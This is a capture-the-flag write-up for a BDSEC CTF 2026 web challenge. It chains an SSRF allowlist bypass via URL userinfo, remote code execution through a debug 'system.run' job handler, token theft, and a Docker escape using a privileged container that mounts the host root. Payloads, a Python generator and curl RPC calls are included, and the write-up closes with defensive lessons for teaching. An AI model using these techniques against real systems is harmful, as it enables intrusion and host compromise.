

# Partner Sync - BDSEC CTF 2026

## Challenge Information

| Field | Value |
|---|---|
| Challenge | Partner Sync |
| Category | Web |
| Author | pmsiam0 |
| Points | 105 |
| Difficulty | Medium |

## Description

A partner integration service exposes a URL fetch feature meant only for approved internal use.

Something in how it validates "approved" doesn't hold up.

This challenge is a multi-stage chain requiring pivoting through multiple internal services.

---

# Overview

The exploitation chain:

```
Public Web Application
        |
        | SSRF bypass
        ↓
internal-api:9000/job
        |
        | Binary Job Protocol Abuse
        ↓
system.run RCE
        |
        | Read internal token
        ↓
dind-gate:7000/rpc
        |
        | Docker privileged container
        ↓
Host filesystem mount
        |
        ↓
Read flag
```

---

# 1. Initial Reconnaissance

Opening the challenge page:




The application provides a partner synchronization feature:

```
BDSEC Partner Directory Sync
```

The user can submit a URL.

The server will fetch this URL.

This suggests a possible:

```
Server-Side Request Forgery (SSRF)
```

vulnerability.

---

# 2. SSRF Allowlist Bypass

The application validates allowed URLs incorrectly.

The JavaScript reveals:

```javascript
const ALLOWED_PREFIX =
"http://partners.bdsec.local";

function isAllowedPartnerUrl(url) {
    return url.startsWith(ALLOWED_PREFIX);
}
```

The validation only checks the prefix.

It does not properly parse the hostname.

---

## URL Userinfo Bypass

A URL can contain:

```
http://username@hostname
```

Example:

```
http://partners.bdsec.local@internal-api:9000/job
```

The application sees:

```
http://partners.bdsec.local
```

and accepts it.

However the real hostname is:

```
internal-api:9000
```

---

Payload:

```
http://partners.bdsec.local@internal-api:9000/job
```


The response:

```
405 Method Not Allowed
```

confirms that the internal service was reached.


---

# 3. Discovering Hidden Parameters

The normal web form only sends:

```
partner_url
```

However the backend accepts additional parameters:

```
method
body_b64
```

These parameters allow controlling:

- HTTP method
- Request body

Example:

```
partner_url=http://partners.bdsec.local@internal-api:9000/job

method=POST

body_b64=<payload>
```

---

# 4. Finding Internal API Job Format

The HTML source reveals a forgotten JavaScript file:

```
/static/js/ops-console.js
```


The JavaScript contains:

```javascript
buildJob(handler,arg)
```

The binary format:

```
[u32 BE: handler length]
[handler bytes]

[u32 BE: argument length]
[argument bytes]
```

Known dangerous handler:

```
system.run
```

The comment reveals:

```
system.run
debug-only
never shipped a permission check
```

This gives command execution.

---

# 5. Creating Binary Job Payload

The payload structure:

```
+----------------+
| handler length |
+----------------+
| system.run     |
+----------------+
| argument length|
+----------------+
| command        |
+----------------+
```

Python generator:

```python
import struct
import base64

handler = b"system.run"

command = b"cat /app_shared/.internal_token"

payload = (
    struct.pack(">I", len(handler))
    + handler
    + struct.pack(">I", len(command))
    + command
)

print(base64.b64encode(payload).decode())
```

The generated Base64 value is sent using:

```
body_b64
```


---

# 6. Internal API RCE and Token Extraction

Using:

```
system.run
```

we execute:

```
cat /app_shared/.internal_token
```

Response:

```json
{
 "result":"<TOKEN>"
}
```

Example:

```
130ed0187eaf6fbccdbac6e94ab83bc3
```


This token is required for the next internal service.

---

# 7. Pivot to dind-gate

The leaked JavaScript also reveals:

```
dind-gate -> dind-gate:7000/rpc
```

RPC format:

```json
{
 "token":"",
 "op":"run",
 "image":"alpine",
 "cmd":[],
 "binds":[],
 "privileged":true
}
```

Because dind-gate is internal-only, we call it through the existing RCE.

Command executed by internal-api:

```bash
curl -X POST http://dind-gate:7000/rpc \
-H "Content-Type: application/json" \
-d '{"token":"TOKEN","op":"run"...}'
```

---

# 8. Docker Escape

The RPC request creates a privileged container:

```json
{
 "privileged":true,
 "binds":[
    "/:/mnt/host:ro"
 ]
}
```

Mounting:

```
/
```

from the host allows access to the host filesystem.

The flag location:

```
/mnt/host/vault/flag.txt
```

---

# 9. Automated Exploit

The final exploit automates:

1. Generate binary job
2. Trigger internal API
3. Read token
4. Call dind-gate
5. Mount host filesystem
6. Read flag

Example:

```bash
python3 exploit.py
```

Output:

```
[*] Step 1a: Trigger token creation

[*] Step 1b: Read internal token

Token:
130ed0187eaf6fbccdbac6e94ab83bc3

[*] Step 2:
Pivot to dind-gate

Flag:
BDSEC{Y0U_D0nE_4ll_st3ps}
```


---

# Flag

```
BDSEC{Y0U_D0nE_4ll_st3ps}
```


---

# Lessons Learned

## SSRF

Never validate URLs using:

```python
startswith()
```

Always parse and validate:

- scheme
- hostname
- port


## Internal Services

Internal services should not blindly trust requests from other services.


## Dangerous Debug Functions

Functions like:

```
system.run
```

should never exist in production without authentication.


## Docker Security

A container with:

```
privileged=true
```

and:

```
/:/host
```

mount is effectively host-level access.

---

# Attack Chain Summary

```
SSRF
 ↓
Internal API Access
 ↓
Binary Protocol Abuse
 ↓
system.run RCE
 ↓
Token Extraction
 ↓
Docker API Abuse
 ↓
Host Filesystem Access
 ↓
Flag
```
